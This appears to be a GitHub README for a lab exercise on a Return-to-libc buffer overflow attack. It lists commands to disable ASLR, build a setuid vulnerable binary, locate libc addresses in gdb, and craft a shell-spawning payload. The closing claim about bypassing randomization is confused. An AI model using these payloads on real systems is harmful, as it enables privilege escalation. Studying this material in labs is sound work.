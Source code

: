 # Return-To-LibC-Attack
The Return-To-Libc attack, commonly known as RTL is an attack that is profoundly known for exploiting weaknesses of a Buffer Overflow condition on a system with a non-executable stack. In this type of attack, the attack uses a tactic similar to the typical buffer overflow attack, where the return address is used to redirect the program to a different source [1]. 
But unlike a normal Buffer Overflow attack, RTL uses function provided by inbuilt library i.e. the system() call. The attacker can then overwrite the return address space and assign address of the shell code i.e. ‘/bin/sh’ address in our case. This will allow the attacker to gain access to the command shell and allow him/her to extract information from the system [3].

Now, steps used to perform the attack:

1. Turn off address randomization</br>
**Command:**
-	$ sudo sysctl -w kernel.randomize_va_space=0
enter password: dees
 kernel.randomize_va_space = 0

2. Set Environment Variables for /bin/sh address</br>
**Command:**
$ export MYSHELL="/bin/sh"

3. Executing the vul.c file to understand the registers and their current addresses</br> 
**Command:**
-	$  gcc -g -fno-stack-protector -m32 vul.c -o vul
-	$ chmod 4755 vul
-	$ gdb ./vul

<center><img src="/Images/1.png" width=400 height=400></center>

 
4. Overflowing the Buffer with all ‘A’ to check ending limit of Return Address(EIP)</br>
**Command:** 
-	$ (python -c 'print "A"*27')> badfile
-	$ gcc -g -fno-stack-protector -m32 vul.c -o vul
-	$ gdb ./vul
<center><img src="/Images/2.png" width=400 height=400></center>

5. Extract 'system' & 'exit' addresses by compiling and running the vul.c file once</br>
**Command:**
-	(gdb) r
-	(gdb) p system
 $1 = {<text variable, no debug info>} 0xb7e5f430 <system>
-	(gdb) p exit
 $2 = {<text variable, no debug info>} 0xb7e52fb0 <exit>

6. Extract the address for '/bin/sh' using exp.c file</br> 
**Command:**
- $ gcc -g -fno-stack-protector -m32 exp.c -o exp 
- $ gdb ./exp
- (gdb) r

--> Starting program: /home/seed/exp  
    bffffe8f  
    [Inferior 1 (process 4738) exited normally] 

<center><img src="/Images/3.png" width=400 height=400></center>

7. Now perform the attack by using a python script and concatenation addresses for 'system', 'exit'& '/bin/sh'</br>
**Command:**
-	$ (python -c'print "A"*23 +"\x30\xf4\xe5\xb7"+"\xb0\x2f\xe5\xb7"+"\x8f\xfe\xff\xbf"')>badfile
-	$ gcc -g -fno-stack-protector -m32 vul.c -o vul
-	$ gdb ./vul
-	(gdb) r

--> Starting program: /home/seed/vul 
Read from file: AAAAAAAAAAAAAAAAAAAAAAA0�巰/巏���  
$
<center><img src="/Images/4.png" width=400 height=400></center>
<center><img src="/Images/5.png" width=400 height=400></center>

8. Now, in order to execute the attack even when the kernel is generating random addresses, use following commands along with commands from steps 1-7</br>
**Commands:**
-	$ sudo sysctl -w kernel.randomize_va_space=2
enter password: dees
--> kernel.randomize_va_space = 2
-	$ gcc -g -fno-stack-protector -m32 vul.c -o vul
-	$ gdb ./vul
-	(gdb) set disable-randomization off
-	(gdb) r

Here, we use set disable-randomization off command to bypass the kernel address randomization inside the gdb debugger.

